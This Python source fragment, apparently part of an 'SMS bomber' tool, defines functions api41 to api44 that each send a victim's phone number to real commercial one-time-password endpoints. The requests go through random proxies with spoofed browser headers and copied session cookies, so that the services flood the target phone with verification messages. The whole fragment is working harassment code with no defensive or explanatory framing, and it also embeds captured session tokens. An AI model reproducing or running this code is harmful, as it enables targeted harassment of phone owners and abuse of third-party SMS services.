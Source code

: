 def api41(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://admin-api.24fix.tech/auth/otp/request",headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"},json={"phoneNumber":phone},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api42(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.ctrueshop.com/member.php?page=25&type=9",headers={"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","content-type": "application/x-www-form-urlencoded","cookie": "PHPSESSID=1po9v1nrrem5fr8co6urk37lv1; _gcl_au=1.1.867007754.1665302231; _ga=GA1.2.1978432786.1665302231; _gid=GA1.2.1842911343.1665302231; _gat_gtag_UA_19183081_1=1; __sdwc=0978bae8-1717-4f1b-9f1a-dcf9dce81fa8; rchatbox:checkCrossOriginWebdata=1665302236917","user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"},data=f"tel1={phone}&affiliate=2&social=",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api43(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.get(f"https://app.iship.cloud/api/ant/request-otp/{phone}",headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36","cookie": "_fbp=fb.1.1664699330289.47112595; XSRF-TOKEN=eyJpdiI6Ijk3cVRMUndzZ2FUME8wV2VzRXFaWWc9PSIsInZhbHVlIjoiQjRkNzlNYXR2TWtSWmNySlFYVjBoQk80RGJMR215RXVFUjRuMTFNYm5ocGRDRmNGcHNjWmpOeUdnOWlPbmFhVXA5eG1LUlB2SVZEMjRFWEVITTRZV1hzZUtZenArenZjK0R3UE5OTUdTQkVWUG1tYmkrTG1NWWFiTUZOZ1NRMlIiLCJtYWMiOiI3Y2M1OGJkMzg2MzZkZDYwNjlmNjNkMmFkYWZlZDVkNjliZGJjMjUwN2MyMjJmYzgxODE3ZGYxOWY1NWU4MzhlIiwidGFnIjoiIn0%3D; iship_session=eyJpdiI6IjdueEZQTU5Kc0FXZ0hjeVF0L2s2WVE9PSIsInZhbHVlIjoidHNzZ1RINDhta1BnUkFic29hdFlMNU8zVWt0MGZYbUVMb1Q0ZjM0OVR5cFlSbE01NlNuMWRoeGF4SldiVHN3U3JFZWg5dnJvMEZHbnF6cnlNdG45SmZjSGxqRkNRN0w0T3oyclBHc09ZM2svd3VZZkl4TG9NRHFLMTIxeGhvd2oiLCJtYWMiOiJhMTBjZThjNGU5M2Y0NjM1MTQ4ZTI4MGFmMzkxMmQ4ZmY0NjljNGM5YjBkZWZkMGIxYTM5Y2Y5MDgyNWZkOTk1IiwidGFnIjoiIn0%3D; _gcl_au=1.1.1744992984.1664699333; _ga_5H8RG35JM3=GS1.1.1664699330.1.1.1664699332.0.0.0; _gid=GA1.2.1851918371.1664699333; _gat_UA-208577766-1=1; _ga=GA1.1.1543229521.1664699330; _ga_9QF6J7SNMX=GS1.1.1664699332.1.0.1664699332.0.0.0"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api44(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.get(f"https://4k6hzpuupa.execute-api.ap-southeast-1.amazonaws.com/dev/request-otp/+66{phone[1:]}",headers={"authority": "4k6hzpuupa.execute-api.ap-southeast-1.amazonaws.com","user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	